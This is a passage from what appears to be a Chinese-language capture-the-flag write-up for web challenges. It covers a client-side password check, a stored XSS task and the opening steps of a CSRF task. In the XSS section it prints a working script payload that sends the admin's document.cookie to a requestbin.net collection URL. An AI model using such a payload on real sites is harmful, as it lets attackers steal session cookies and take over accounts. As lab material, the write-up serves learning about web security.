 ```js
        {
            alert("Nope, you're a naughty hacker.")
        }
    }
}
```

点击 loggin 会出现两个弹窗，分别输入账号密码，就会告诉你 Flag 就是你输入的密码。


## XSS - Stockée 1

提示语：Du gateau !

Énoncé
Volez le cookie de session de l’administrateur et utilisez le pour valider l’épreuve.

涉及 XSS， 题目网站提供了类似于论坛留言板的界面，需要将代码注入留言板以获取管理员的 cookie 来解题。

利用 https://requestbin.net/ 生成一个 http 服务器来接受访问请求

知道服务器地址为 http://requestbin.net/r/5vds2u6y

在留言板输入以下内容

```html
<script>document.write("<img src=https://requestbin.net/r/5vds2u6y?tk="+document.cookie+" />");</script>
```

等待机器人定时访问留言板即可



https://www.cnblogs.com/li9club/p/12381847.html 生成服务器教程

## CSRF - 0 protection

提示语：Cross-Site Request Forgery

Énoncé
Activez votre compte pour accéder à l’espace privé de l’intranet.

官方参考：
http://repository.root-me.org/Exploitation%20-%20Web/FR%20-%20les%20attaques%20CSRF.pdf

http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20CSRF:%20Attack%20and%20defense.pdf

http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20OWASP%20Cross-site%20Request%20Forgery%20CSRF.pdf

https://requestbin.net/

解题：

点击 Register 注册一个账号，如 `attacker`，密码 `123456`。


chrome 查看 POST 请求 https://stackoverflow.com/questions/15603561/how-can-i-debug-a-http-post-in-chrome
